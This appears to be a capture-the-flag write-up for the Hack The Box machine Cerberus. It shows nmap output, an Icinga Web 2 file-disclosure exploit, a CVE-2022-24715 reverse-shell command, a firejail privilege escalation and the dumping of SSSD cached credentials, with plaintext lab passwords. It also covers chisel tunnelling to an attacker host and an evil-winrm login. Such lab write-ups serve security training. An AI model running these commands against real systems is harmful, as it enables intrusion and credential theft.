

# Enumeration
Using autorecon to enumerate:
```
#Nmap 7.94SVN scan initiated Fri Feb 23 19:45:26 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/cerberus/results/10.10.11.205/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/cerberus/results/10.10.11.205/scans/xml/_full_tcp_nmap.xml 10.10.11.205
Nmap scan report for 10.10.11.205
Host is up, received user-set (0.042s latency).
Scanned at 2024-02-23 19:45:26 IST for 110s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (91%)
Uptime guess: 38.204 days (since Tue Jan 16 14:53:06 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   42.97 ms 10.10.14.1
2   43.08 ms 10.10.11.205

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 23 19:47:16 2024 -- 1 IP address (1 host up) scanned in 109.70 seconds

```
Adding it to dns we get an icinga website:

Using arbitrary file disclosure exploit for icinga from https://www.exploit-db.com/exploits/51329 got the default authentication file:
```
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/authentication.ini 
```

Then checking roles.ini:

Found the username and password in resources.ini:
username = matthew
password = IcingaWebPassword2023
Now using authenticated remote code execution from https://github.com/JacobEbben/CVE-2022-24715
```
python3 exploit.py -u http://http://icinga.cerberus.local:8080 -U matthew -P IcingaWebPassword2023 -i 10.10.14.22 -p 443
```
we get a shell:

Using linpeas we find the process sssd which tells that it is indeed an AD:

can also check manually with `ps -ef --forest`
We find something interesting:

Finding the version of firejail:

Now we get an exploit for it [here](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2022-31214-firejail-lpe)

Running su - we get a root shell:


IP of domain controller:
`172.16.22.1`


To check for hashes: 
```
strings  /var/lib/sss/secrets/secrets.ldb | grep '\$'
```

Checking config files there are cached creds:

Checking for cache in `/var/lib/sss/db`:
```
strings cache_cerberus.local.ldb | grep '\$'
```

matthew: `147258369`

To check if winrm is running on the dc(172.16.22.1):
```
echo 1 > /dev/tcp/172.16.22.1/5985; echo $?
```
We get a 0 which means the port is open
**NOTE: Dont do this portforwarding in oscp research better techniques**
So running chisel on attacker machine with:
`chisel server --reverse --socks5 -p 8001`
Then running chisel in target machine:
`./chisel client 10.10.14.22:8001 R:5985:172.16.22.1:5985`
Add to proxychains config (/etc/proxychains4.conf):
`socks5  127.0.0.1 1080`

Using evil-winrm to login to matthew:
`evil-winrm -i 127.0.0.1 -u matthew -p 147258369`
We get a shell:

Now getting chisel onto the cerberus machine:
`wget http://10.10.14.22/chisel.exe -o chisel.exe`
Now port forwarding:
- Attacker
	`chisel server --reverse --socks5 -p 8002`
- Target
	`.\chisel.exe client 10.10.14.22:8001 R:socks`
	`.\chisel.exe client 10.10.14.22:8001 R:9251:127.0.0.1:9251`
Add domain to /etc/hosts

Then make a firefox proxy in foxyproxy:


